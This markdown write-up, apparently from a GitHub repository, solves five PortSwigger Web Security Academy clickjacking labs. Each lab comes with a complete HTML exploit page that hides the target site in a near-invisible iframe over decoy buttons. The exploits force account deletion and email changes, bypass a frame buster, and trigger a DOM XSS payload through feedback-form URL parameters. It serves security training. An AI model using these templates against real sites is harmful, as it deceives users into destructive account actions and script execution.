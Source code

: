 # Clickjacking (UI redressing)

Get details at [here](https://portswigger.net/web-security/clickjacking)

---

[Lab 1](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected): basic csrf protected

Description of this lab: login functionality and a deleted account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

We will exploit at my-account page, use this script for exploit server body:

```html
    <html>
        <head>
        <style>
            #target_website {
                position:relative;
                width: 512px;
                height: 512px;
                opacity:0.00001;
                z-index:2;
            }
            #decoy_btn {
                position:absolute;
                top:490px;
                width:148px;
                height: 32px;
                left: 25px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
            click me
        </button>
        <iframe id="target_website" src="https://0a9e00b803f9b564c403699e003600a9.web-security-academy.net/my-account">
        </iframe>
    </body>
    </html>
```

Clicking store then deliver to victim button, and solved the lab.

[Lab 2](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input): pre-filled form input

Description of this lab: craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed, change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

Using this script for body part of exploit server, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.00001;
                    z-index:2;
                }

                #decoy_btn {
                    position:absolute;
                    top:443px;
                    width:133px;
                    height: 32px;
                    left: 40px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="decoy_btn">
                click me
            </button>
            <iframe id="target_website" src="https://0adc002b04cbf2d9c0464d1400b70014.web-security-academy.net/my-account?email=test@example.com">
            </iframe>
        </body>
    </html>
```
[Lab 3](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script): frame buster script

Description of this lab: craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed, get around the frame buster and conduct a clickjacking attack that changes the users email address

Using `sandbox="allow-forms"` in script for body part of exploit server for frame buster, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.00001;
                    z-index:2;
                }
                #decoy_btn {
                    position:absolute;
                    top:443px;
                    width:133px;
                    height: 32px;
                    left: 40px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="decoy_btn">
                click me
            </button>
            <iframe sandbox="allow-forms" id="target_website" src="https://0abc007403c75832c048cd1d00620031.web-security-academy.net/my-account?email=target@website.com">
            </iframe>
        </body>
    </html>

```

[Lab 4](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss): exploiting to trigger DOM-based XSS

Description of this lab: XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

We can find the vulnerability in feedback form where users can type anything. Use this script in exploit server and do it like previous lab, then solved the lab.

```html
    <html>
    <head>
        <style>
        #target_website {
            position:relative;
            width: 512px;
            height: 1024px;
            opacity:0.10001;
            z-index:2;
            }
        #decoy_btn {
            position:absolute;
            top:798px;
            width:158px;
            height: 32px;
            left: 27px;
            z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
        click
        </button>
        <iframe id="target_website" src="https://0aeb002903c405aac09ef522001600ab.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=%22print()%22/%3E&email=target@website.com&subject=blabla&message=blabla">
        </iframe>
    </body>
    </html>
```

[Lab 5](https://portswigger.net/web-security/clickjacking/lab-multistep): multistep

Description of this lab: solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. This lab is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking

Bypass its protection with 2 buttons, using this script for body part of exploit server, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.10001;
                    z-index:2;
                }
                #first_decoy_btn {
                    position:absolute;
                    top:490px;
                    width:148px;
                    height: 32px;
                    left: 25px;
                    z-index:1;
                }
                #second_decoy_btn {
                    position:absolute;
                    top:288px;
                    width:120px;
                    height: 32px;
                    left: 193px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="first_decoy_btn">
                Click me first
            </button>
            <button id="second_decoy_btn">
                Click me next
            </button>
            <iframe id="target_website" src="https://0a6e00b704a9bb4ec04e21e0005000b7.web-security-academy.net/my-account">
            </iframe>
        </body>
    </html>
```
